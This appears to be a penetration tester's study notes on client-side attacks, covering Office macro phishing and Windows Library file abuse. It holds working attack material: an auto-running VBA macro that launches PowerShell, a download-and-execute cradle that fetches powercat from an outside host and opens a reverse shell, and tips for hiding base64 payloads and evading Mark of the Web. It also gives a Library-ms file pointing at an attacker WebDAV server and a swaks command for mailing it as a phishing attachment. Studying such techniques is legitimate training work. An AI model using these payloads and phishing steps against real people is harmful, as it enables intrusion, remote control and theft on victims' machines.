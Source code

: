```yaml
---
layout: blank
---
```


### Information Gathering

- **Metadata**
	- Examining metadata of company-created PDFs can be a good source of information
- theHarvester - searches for emails given a domain -d
- **Client Fingerprinting**
	- Canarytokens - tool that can fingerprint a computer from a link
		- This token grabs browser info, IP address, and OS info

### Attacking MS Office

- **MS Office Attack**
	- Can't send malware directly by email, so we need to get them to download the spreadsheet with macros from a link
	- Also need to "blur" the spreadsheet so victim clicks "Enable Editing" to allow macros
	- Avoid Mark of the Web (MOTW) by putting malware inside 7zip, ISO, IMG
- **MS Office Macros**
	- To make macros: View -> Macros
	- Basic macro code that opens powershell:
```
Sub AutoOpen()

  MyMacro

End Sub
Sub Document_Open()

  MyMacro

End Sub
Sub MyMacro()

  CreateObject("Wscript.Shell").Run "powershell"

End Sub
```
- Powercat
	- Creates reverse shells, but detected by defender
	- Command to download/execute the reverse shell: `IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell`
		- This is just grabbing a hosted powershell script
		- Powercat: 
	- Can be passed to the macro by encoding it in chunks of 50 base64 characters:
		- `Dim Str as String`
		- `Str = Str + "powershell.exe -nop -w hidden -enc {base64}"`
		- `Str = Str + {base64}"`
		- `CreateObject("Wscript.Shell").Run Str`

### Abusing Windows Library Files
- Windows library files are less well-known and can be equally effective
- Executing .Library-ms file into executing .lnk file
- These files display remote directories like local directories, where we put .lnk file
	- `pip3 install wsgidav` for a WebDAV server to host/serve files
	- usage: `wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root {directory}`  
- config.Library-ms file contents:

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

- Sending a phishing email with the share:
	- `sudo swaks -t {to_email} -t {to_email} --from {from_email} --attach @config.Library-ms --server {mail_server} --body @body.txt --header "Subject: Staging Script" --suppress-data -ap`